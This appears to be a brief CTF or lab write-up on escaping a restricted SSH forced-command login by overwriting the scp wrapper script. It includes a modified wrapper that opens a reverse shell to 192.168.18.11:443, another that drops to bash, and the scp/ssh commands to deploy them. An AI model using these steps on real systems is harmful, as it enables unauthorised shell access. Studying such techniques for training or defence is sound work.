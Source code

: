**ssh key login limited**
+ pg-sorcerer, ssh login limited to wrapper.sh
+ check authorized_keys, command; change wrapper.sh or authorized_keys
+ use scp to overwrite the file and ssh with key.

```bash
# authorized_keys content, limited ssh login to execute wrapper.sh
no-port-forwarding,no-X11-forwarding,no-agent-forwarding,no-pty,command="/home/max/scp_wrapper.sh" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQC39t1AvYVZKohnLz6x92nX2cuwMyuKs0qUMW9Pa+zpZk2hb/ZsULBKQgFuITVtahJispqfRY+kqF8RK6Tr0vDcCP4jbCjadJ3mfY+G5rsLbGfek3vb9drJkJ0

# wrapper.sh
#!/bin/bash
case $SSH_ORIGINAL_COMMAND in
 'scp'*)
    $SSH_ORIGINAL_COMMAND
    ;;
 *)
    echo "ACCESS DENIED."
    scp
    ;;
esac

## change wrapper
#!/bin/bash
case $SSH_ORIGINAL_COMMAND in
 'scp'*)
    $SSH_ORIGINAL_COMMAND
    ;;
 *)
    echo "ACCESS DENIED."
    bash -i >& /dev/tcp/192.168.18.11/443 0>&1
    ;;
esac

## wrapper, or
#!/bin/bash
bash

## wrapper, change echo content to verify.
case $SSH_ORIGINAL_COMMAND in
 'scp'*)
    $SSH_ORIGINAL_COMMAND
    ;;
 *)
    echo "Hello."
    bash
    ;;
esac

scp -i keys ./wrapper.sh max@ip:/home/max/
ssh -i keys max@ip
```
